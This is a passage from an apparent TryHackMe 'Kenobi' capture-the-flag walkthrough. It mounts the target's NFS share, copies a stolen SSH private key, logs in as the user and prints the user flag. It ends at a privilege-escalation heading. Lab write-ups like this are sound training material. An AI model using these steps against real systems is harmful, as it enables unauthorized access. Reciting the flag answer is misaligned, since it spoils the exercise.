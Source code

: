 `No answer needed`

5. Lets mount the /var/tmp directory to our machine

`mkdir /mnt/kenobiNFS`

`sudo mount 10.10.222.46:/var /mnt/kenobiNFS`

`ls -la /mnt/kenobiNFS`

![](https://i.imgur.com/v8Ln4fu.png)

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.

![](https://i.imgur.com/Vy4KkEl.png)

What is Kenobi's user flag (/home/kenobi/user.txt)?

```
kali@kali:~/CTFs/tryhackme/Kenobi$ cp /mnt/kenobiNFS/tmp/id_rsa .
kali@kali:~/CTFs/tryhackme/Kenobi$ chmod 600 id_rsa
kali@kali:~/CTFs/tryhackme/Kenobi$ ssh -i id_rsa kenobi@10.10.222.46
The authenticity of host '10.10.222.46 (10.10.222.46)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.222.46' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
kenobi@kenobi:~$
```

`d0b0f3f53b6caa532a83915e19224899`

## Privilege Escalation with Path Variable Manipulati

![](https://i.imgur.com/LN2uOCJ.png)
